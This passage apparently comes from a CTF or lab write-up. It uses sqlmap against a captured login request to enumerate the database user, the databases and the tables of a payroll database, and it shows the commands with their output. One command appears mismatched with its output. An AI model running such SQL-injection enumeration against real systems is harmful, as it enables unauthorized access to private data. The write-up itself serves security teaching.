 Now that `sqlmap` has found the vulnerability, I can task it for more
information. For example, the current user of the DB:



    oxdf@hacky$ sqlmap -r login.req --batch --threads 10 --current-user
    ...[snip]...
    current user: 'remo@localhost'
    ...[snip]...



I'm using threads to speed up the process. Threads are safe with
boolean, but not time-based.

There are two databases, though one is the default for MySQL:



    oxdf@hacky$ sqlmap -r login.req --batch --threads 10 --current-user
    ...[snip]...
    available databases [2]:
    [*] information_schema
    [*] payroll_db
    ...[snip]...



There are 11 tables:



    oxdf@hacky$ sqlmap -r login.req --batch --threads 10 -D payroll_db --tables
    ...[snip]...
    Database: payroll_db
    [11 tables]
    +---------------------+
    | position            |
    | allowances          |
    | attendance          |
    | deductions          |
    | department          |
    | employee            |
    | employee_allowances |
    | employee_deductions |
    | payroll             |
    | payroll_items       |
    | users               |
    +---------------------+
    ...[snip]...
